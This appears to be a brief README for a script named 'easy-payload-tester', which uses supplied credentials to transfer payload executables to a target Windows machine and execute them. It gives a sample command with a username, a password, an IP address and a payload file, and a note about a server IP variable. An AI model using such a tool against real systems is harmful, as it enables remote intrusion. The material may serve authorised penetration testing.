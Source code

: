 # easy-payload-tester
Automatically transfer and execute the payload binaries to target windows system

./payload-tester.sh &lt;username&gt; &lt;password&gt; &lt;target-ip&gt; &lt;payload.exe&gt;
 
 Example-
 
./payload-tester.sh test "Te\$terte\$t@123" 192.168.146.8 RESONANT_FORECAST.exe
 
![Image](payload-tester.png)

 Change the serverip varible if you are not having public ip.
